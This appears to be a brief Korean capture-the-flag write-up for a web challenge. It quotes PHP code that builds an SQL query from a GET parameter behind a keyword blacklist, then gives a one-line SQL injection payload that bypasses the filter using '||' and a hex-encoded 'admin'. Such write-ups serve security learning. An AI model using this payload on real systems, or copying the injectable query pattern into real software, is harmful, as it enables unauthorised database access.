


# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**


***


# **Description**




# **Write-Up**

view-source를 보면 여러 필터링이 되어 있다.

```php
... 생략 ...
<?php
  if($_GET['lv']){
    $db = dbconnect();
    if(preg_match("/select|or|and|\(|\)|limit|,|\/|order|cash| |\t|\'|\"/i",$_GET['lv'])) exit("no hack");
    $result = mysqli_fetch_array(mysqli_query($db,"select id from chall49 where lv={$_GET['lv']}"));
    echo $result[0] ;
    if($result[0]=="admin") solve(49);
  }
?>
... 생략 ...
```

    0||id=0x61646d696e

